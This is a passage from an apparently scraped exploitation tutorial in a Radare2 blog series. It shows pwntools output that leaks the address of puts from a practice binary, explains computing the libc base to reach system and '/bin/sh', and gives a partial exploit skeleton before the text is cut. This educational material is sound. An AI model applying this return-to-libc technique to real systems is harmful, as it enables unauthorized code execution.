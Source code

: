 ...
</pre>
          </div>
          
          <p>
            Let&#8217;s execute the script:
          </p>
          
          <div style="overflow-x: auto; margin: 0 0 20px;">
            <table style="background-color: #4a3446; color: #fff; font-family: terminal, monaco, monospace; font-size: 10pt;">
              <tr style="height: 19.8594px;">
                <td style="height: 19.8594px;">
                  $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23578<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf75db710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23578)<br /> <span style="color: #cc99ff;">  </span><br /> $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23592<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf7563710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23592)<br /> <span style="color: #cc99ff;">  </span><br /> $ python <span style="color: #33cccc;">exploit.py</span><br /> <span style="color: #00ccff;">[+]</span> Starting local process &#8216;./megabeets_0x2&#8217;: pid 23606<br /> <span style="color: #00ccff;">[*]</span> puts is at: 0xf75e3710<br /> <span style="color: #00ccff;">[*]</span> Stopped process &#8216;./megabeets_0x2&#8217; (pid 23606)
                </td>
              </tr>
            </table>
          </div>
          
          <p>
            I executed it 3 times to show you how the address of <code>puts</code> has changed in each run. Therefore we cannot predict its address beforehand. Now we need to find the offset of <code>puts</code> in <em>libc</em> and then calculate the base address of <em>libc</em>. After we have the base address we can calculate the real addresses of  <code>system</code>, <code>exit</code> and <code>"/bin/sh"</code> using their offsets.
          </p>
          
          <p>
            Our skeleton now should look like this:
          </p>
          
          <pre class="toolbar:2 marking:false ranges:false nums:false nums-toggle:false show-plain:3 lang:python decode:true">from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 
offset_system = 
offset_str_bin_sh = 
offset_exit = 


 [1]: https://www.megabeets.net/a-journey-into-radare-2-part-1/
 [2]: https://en.wikipedia.org/wiki/NX_bit
 [3]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
 [4]: https://en.wikipedia.org/wiki/Call_stack
 [5]: https://en.wikipedia.org/wiki/Buffer_overflow
 [6]: https://en.wikipedia.org/wiki/Return-oriented_programming
 [7]: https://en.wikipedia.org/wiki/X86_calling_conventions
 [8]: https://www.megabeets.net/uploads/r2_part1_2.png
 [9]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2
 [10]: https://github.com/ITAYC0HEN/A-journey-into-Radare2/blob/master/Part%202%20-%20Exploitation/megabeets_0x2.c
 [11]: https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries
 [12]: https://en.wikipedia.org/wiki/Position-independent_code
 [13]: https://tk-blog.blogspot.co.il/2009/02/relro-not-so-well-known-memory.html
 [14]: https://reverseengineering.stackexchange.com/a/16115/18698
 [15]: https://www.megabeets.net/uploads/mainsym.png
 [16]: https://www.megabeets.net/uploads/beetsym.png
 [17]: https://www.megabeets.net/uploads/tumblr_m5vxpy8Cs41qfoh4t.gif
 [18]: https://en.wikipedia.org/wiki/De_Bruijn_sequence
 [19]: https://en.wikipedia.org/wiki/C_standard_library
 [20]: https://en.wikipedia.org/wiki/Return-to-libc_attack
 [21]: https://en.wikipedia.org/wiki/Shellcode